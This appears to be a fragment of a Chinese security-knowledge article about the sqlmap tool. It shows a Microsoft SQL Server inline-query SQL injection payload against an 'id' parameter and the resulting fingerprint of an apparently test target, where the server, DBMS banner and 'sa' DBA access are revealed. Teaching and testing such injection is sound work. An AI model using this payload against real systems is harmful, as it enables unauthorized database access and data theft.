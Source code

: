 ```
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: id=(SELECT CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (6382=6382) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58))
---
web server operating system: Windows XP
web application technology: ASP, Microsoft IIS 5.1
back-end DBMS operating system: Windows XP Service Pack 2
back-end DBMS: Microsoft SQL Server 2005
banner:
---
Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86) 
    Oct 14 2005 00:33:37 
    Copyright (c) 1988-2005 Microsoft Corporation
    Express Edition on Windows NT 5.1 (Build 2600: Service Pack 2)
---
current user:    'sa'
current database:    'testdb'
current user is DBA:    True

[*] shutting down at 11:25:52 
```

**Tags:** [sqlmap](http://drops.wooyun.org/tag/sqlmap), [注入](http://drops.wooyun.org/tag/%e6%b3%a8%e5%85%a5)

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：
